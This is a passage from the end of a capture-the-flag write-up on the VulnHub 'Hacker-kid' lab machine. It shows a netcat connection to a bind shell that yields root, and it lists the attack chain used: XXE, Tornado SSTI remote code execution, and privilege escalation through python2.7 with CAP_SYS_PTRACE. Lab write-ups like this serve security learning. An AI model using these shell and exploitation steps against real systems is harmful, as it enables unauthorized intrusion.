```shell
[...]
```

The exploit worked!

- Connect to the bind TCP shell:

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|20:16:04(HKT)]
└> nc -nv $RHOSTS 5600
(UNKNOWN) [10.69.96.74] 5600 (?) open
whoami; hostname; id; ip a
root
ubuntu
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:63:51:02 brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    inet 10.69.96.74/24 brd 10.69.96.255 scope global dynamic noprefixroute ens33
       valid_lft 1608sec preferred_lft 1608sec
    inet6 fe80::fc10:35cb:9bea:8aff/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

I'm `root`! :D

## Conclusion

What we've learned:

1. Fuzzing GET parameter via `ffuf`
2. DNS zone transfer
3. Exploiting XXE injection
4. Exploiting RCE via SSTI in Tornado template engine
5. Vertical privilege escalation via misconfigurated `python2.7` with `CAP_SYS_PTRACE` capability

{% endraw %}